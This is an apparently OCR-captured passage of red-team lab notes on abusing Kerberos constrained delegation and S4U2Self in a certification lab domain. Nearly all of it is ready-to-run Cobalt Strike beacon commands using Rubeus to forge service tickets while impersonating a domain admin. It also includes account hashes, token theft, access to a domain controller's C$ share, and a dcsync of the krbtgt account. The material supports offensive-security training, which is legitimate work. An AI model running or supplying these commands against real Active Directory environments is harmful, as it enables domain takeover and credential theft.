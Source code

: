     beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:CIFS/dc-2.dev.cyberbotic.io /user:sql-2$ /nowrap /ticket:doIFLD[...snip...]MuSU8=
      
    # 3 (b). OR, Access other alternate Service not stated in Delegation attribute (ldap, http, host, etc...)
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:CIFS/dc-2.dev.cyberbotic.io /altservice:LDAP /nowrap /user:sql-2$ /ticket:doIFpD[...]MuSU8=
      
    # STEP 2 & 3 in one command using Credentials (Getting TGT and from TGT requesting TGS for Alternative Service)
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:SQL-2$ /rc4:49d47d3af2329a410e6510a7ccd535c3 /impersonateuser:nlamb /msdsspn:CIFS/dc-2.dev.cyberbotic.io /altservice:LDAP /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /nowrap
      
    # 4. Inject the TGS from previous step (In attacker machine or Initial Machine)
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGaD[...]ljLmlv
      
    # 5. Access the services 
    beacon> steal_token 5540
    beacon> ls \\dc-2.dev.cyberbotic.io\c$
    beacon> dcsync dev.cyberbotic.io DEV\krbtgt
      
    # Note: Directory Listing \\dc-2.dev.cyberbotic.io\c$ worked when impersonating 'nlamb' Domain Admin , But not worked with 'Administrator' Domain Admin in the CRTO Lab Environment.

    S4U2Self Abuse

    # S4U2Self Abuse can be Used to get TGS from TGT of a Machine Account.
    # NOTE: A machine account TGT ticket if injected will not work probably, So we have to  abuse S4U2SELF to obtain TGS and get access as Local Admin to that machine.
    # To Generate TGS from TGT or (TGT, RC4 or AES hash of machine account)
      
    # Get the TGT
    # Using Credentials or Dump it from machine or use PrintSpool attack (force DC to authenticate with WEB machine with unconstrained Delegation Enabled)
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:Administrator /rc4:c04d18e6ff38ae05ed3747274c82b07e /domain:dev.cyberbotic.io /nowrap
      